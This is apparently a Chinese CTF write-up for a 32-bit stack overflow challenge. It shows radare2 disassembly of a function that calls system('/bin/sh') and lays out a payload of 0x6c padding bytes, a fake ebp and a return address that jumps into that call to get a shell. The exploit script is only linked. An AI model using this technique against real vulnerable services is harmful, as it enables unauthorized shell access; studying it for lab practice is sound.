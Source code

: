 以当前时间为种子，生成一个随机数，使用 `scanf` 读取一个数与随机数比较，相等就执行 `/bin/sh` 获得 shell 。

它的汇编如下：

```asm
[0x08048711]> pdf @ sym.secure
┌ 75: sym.secure ();
│           ; var uint32_t var_ch @ ebp-0xc
│           ; var int32_t var_10h @ ebp-0x10
│           ; var int32_t var_4h @ esp+0x4
│           0x08048698      55             push ebp
│           0x08048699      89e5           mov ebp, esp
│           0x0804869b      83ec28         sub esp, 0x28
│           0x0804869e      c70424000000.  mov dword [esp], 0          ; time_t *timer
│           0x080486a5      e8b6fdffff     call sym.imp.time           ; time_t time(time_t *timer)
│           0x080486aa      890424         mov dword [esp], eax        ; int seed
│           0x080486ad      e8defdffff     call sym.imp.srand          ; void srand(int seed)
│           0x080486b2      e809feffff     call sym.imp.rand           ; int rand(void)
│           0x080486b7      8945f4         mov dword [var_ch], eax
│           0x080486ba      8d45f0         lea eax, [var_10h]
│           0x080486bd      89442404       mov dword [var_4h], eax
│           0x080486c1      c70424378b04.  mov dword [esp], 0x8048b37  ; [0x8048b37:4]=0x2f006425 ; "%d" ; const char *format
│           0x080486c8      e803feffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x080486cd      8b45f0         mov eax, dword [var_10h]
│           0x080486d0      3b45f4         cmp eax, dword [var_ch]
│       ┌─< 0x080486d3      750c           jne 0x80486e1
│       │   0x080486d5      c704243a8b04.  mov dword [esp], str._bin_sh ; [0x8048b3a:4]=0x6e69622f ; "/bin/sh" ; const char *string
│       │   0x080486dc      e89ffdffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from sym.secure @ 0x80486d3(x)
│       └─> 0x080486e1      c9             leave
└           0x080486e2      c3             ret
```

我们可以覆盖返回地址为 `0x080486d5`，直接执行 `mov dword [esp], str._bin_sh` 和 `call sym.imp.system` ，合起来也就是 `system("/bin/sh")`。

于是可以构造一个 payload（攻击载荷）：

```
|<--      padding       ->| + |<- fake ebp ->| + |<- return address ->| + |<- newline -->|
aaaabaaacaaa...yaaazaaabaab +       caab       +    \xd5\x86\x04\x08    +      \x0a       
|          0x6c           |   |     0x4      |   |        0x4         |   |     0x1      |
```

之所以需要 `\x0a` 是因为 `gets` 函数需要遇到换行符才结束读取，这个符号不会被它算在读入的字符串内，只当作输入的结束。\
`ebp` 的值不需去管它。

### 编写利用程序

放在了 [exp.py](writeup/exp.py)
